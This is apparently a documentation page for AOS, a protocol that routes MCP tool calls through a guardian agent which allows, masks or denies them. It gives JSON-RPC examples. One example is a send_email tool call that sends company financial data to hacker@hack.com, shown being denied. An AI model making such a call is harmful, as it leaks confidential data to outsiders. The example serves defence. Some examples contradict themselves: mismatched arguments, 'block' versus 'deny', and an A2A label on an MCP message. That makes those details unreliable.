 # Extending MCP

## MCP protocol
The Model Context Protocol ([MCP](https://modelcontextprotocol.io/introduction)) is an open standard that simplifies how AI models, particularly Large Language Models (LLMs) and agents, interact with external data sources, tools, and APIs. It's designed to provide a standardized way for AI agents to connect with the real world, making it easier to build AI applications that can access and use external information.<br><br>
MCP is gaining popularity world-wide and is being adopted and integrated almost everywhere, security and observability must be implemented to prevent unwanted bad consequences.<br>
In the same manner as AOS standardize security for non-standardize access and use of tools and data, it also extends MCP protocol to allow secure usage and implement security controls.

## MCP support

AOS extension for MCP is used as a **transport** for MCP communications between the agent and the guardian agent. Meaning AOS understands and delivers MCP message as is.<br>
Securing MCP means securing outbound and inbound communications/messages from the agent (using MCP client) to the MCP server and vice versa.<br> 

#### To extend MCP protocol:
1. Agents using MCP ***must*** use AOS as a transport protocol to deliver MCP messages to the guardian agent using [MCP protocol hooks](hooks.md#mcp-protocol-hooks).
2. Agents using MCP ***must*** understand and enforce AOS responses.

#### The following flow explains how this should be done:
1. Agent **A** prepares (using MCP client) MCP-compliant message.
2. Agent **A** uses AOS as a transport to send the message to the guardian agent.
3. The guardian agent understands and processes the MCP transported message and send the result back to agent **A**.
4. Agent **A** interprets and enforces the response from guardian agent.
5. In case response is `allow`, agent **A** sends the MCP message to MCP server.
6. MCP server processes the message and sends back to agent **A** the response.
7. Agent **A** uses AOS as a transport to send the MCP response to the guardian agent.
8. The guardian agent understands and processes the MCP transported response and send the result back to agent **A**.
9. Agent **A** interprets and enforces the response from guardian agent.

## Examples
### Scenario: Agent **A** asks MCP server for the weather and guardian agent respond with allow
#### 1. Agent **A** prepares MCP `tools/call` message 

   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "city": "Barcelona"
       },
       "name": "get_weather"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message 

   ```json
    {
        "jsonrpc": "2.0",
        "id": 70,
        "method": "protocols/MCP",
        "params": {
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
            "arguments": {
                "city": "Barcelona"
            },
            "name": "get_weather"
            }
        }
    }
   ```

#### 3. Guardian agent sends `allow` response to agent **A**

   ```json
        {
        "jsonrpc": "2.0",
        "id": 70,
        "result": {
            "decision": "allow",
            "message": "Allow tools/call.",
            "reasoning": "I understand that this is an MCP message. An agent is asking the weather. Nothing suspicious here."
        }
    }
   ```


### Scenario: Agent **A** asks MCP server for to send email with sensitive data and guardian agent respond with modify
#### 1. Agent **A** prepares MCP `tools/call` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "to": "hr@company.io",
           "subject": "",
           "body": ""
       },
       "name": "send_email"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message
   ```json
    {
        "jsonrpc": "2.0",
        "id": 80,
        "method": "protocols/MCP",
        "params": {
            "jsonrpc": "2.0",
            "id": 1,
            "method": "tools/call",
            "params": {
            "arguments": {
                "to": "finance@company.io",
                "from": "manager@company.io",
                "subject": "Employee Salary Raise Request",
                "body": "Hi, I would like to ask for a salary raise for emplyee #12222. The current salary is 200000$, the requested salary is 300000$. Let's have a meeting discuss this."
            },
            "name": "send_email"
            }
        }
    }
   ```

#### 3. Guardian agent sends `modify` response to agent **A**
   ```json
        {
        "jsonrpc": "2.0",
        "id": 80,
        "result": {
            "decision": "modify",
            "message": "Modified data for tools/call.",
            "reasoning": "I understand that this is an MCP message. An agent is asking to send an email with sensitive info, I need to mask it first.",
            "modifiedRequest": {
                "jsonrpc": "2.0",
                "id": 80,
                "method": "protocols/MCP",
                "params": {
                    "jsonrpc": "2.0",
                    "id": 1,
                    "method": "tools/call",
                    "params": {
                    "arguments": {
                        "to": "finance@company.io",
                        "from": "manager@company.io",
                        "subject": "Employee Salary Raise Request",
                        "body": "Hi, I would like to ask for a salary raise for emplyee #12222. The current salary is **********$, the requested salary is **********$. Let's have a meeting discuss this."
                    },
                    "name": "send_email"
                    }
                }
            }
        }
    }
   ```


### Scenario: Agent **A** asks MCP server for to send email with sensitive data to an outsider and guardian agent respond with deny
#### 1. Agent **A** prepares MCP `tools/call` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 1,
     "method": "tools/call",
     "params": {
       "arguments": {
           "to": "hacker@hack.com",
           "subject": "Financial info",
           "body": "The ARR for the company for year 2024 was 100000000000$ "
       },
       "name": "send_email"
     }
   }
   ```

#### 2. Agent **A** uses ASOP as a transport and sends MCP `protocols/MCP` message 
   ```json
   {
     "jsonrpc": "2.0",
     "id": 100,
     "method": "protocols/MCP",
     "params": {
        "jsonrpc": "2.0",
        "id": 1,
        "method": "tools/call",
        "params": {
        "arguments": {
            "to": "hacker@hack.com",
            "subject": "Financial info",
            "body": "The ARR for the company for year 2024 was 100000000000$ "
        },
        "name": "send_email"
        }
   }
   }
   ```

#### 3.Guardian agent sends `block` response to agent **A**
   ```json
    {
        "jsonrpc": "2.0",
        "id": 100,
        "result": {
            "decision": "deny",
            "message": "Deny message/send.",
            "reasoning": "This is A2A message. I recognize disallowed content."
        }
    }
   ```  
